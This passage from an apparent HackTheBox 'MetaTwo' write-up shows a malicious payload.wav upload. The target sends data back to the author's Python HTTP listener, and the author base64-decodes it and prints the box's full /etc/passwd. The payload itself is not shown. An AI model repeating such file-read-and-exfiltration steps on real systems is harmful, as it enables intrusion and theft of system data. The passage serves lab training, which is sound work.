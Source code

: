 ```
python -m http.server 8888
```

Then, I visited the website, and tried to upload the `payload.wav` file.

![meta-9](https://user-images.githubusercontent.com/87711310/219140887-88bf63bc-1c3c-496a-af2c-7557f2358d67.png)


It gave me an error, but when I checked the response on my python server, I got back something.

![meta-10](https://user-images.githubusercontent.com/87711310/219140875-b41a4b42-27e3-4d5f-a937-74e4fb374361.png)


It seemed like a `Base-64` encoded string, so I decided to decode the string.

```
echo <string> | bas64 -d > b64-decode.txt
```

And viewing the contents of the file, I got back the contents of the `/etc/passwd` as mentioned in the payload.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ cat b64-decode.txt 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```
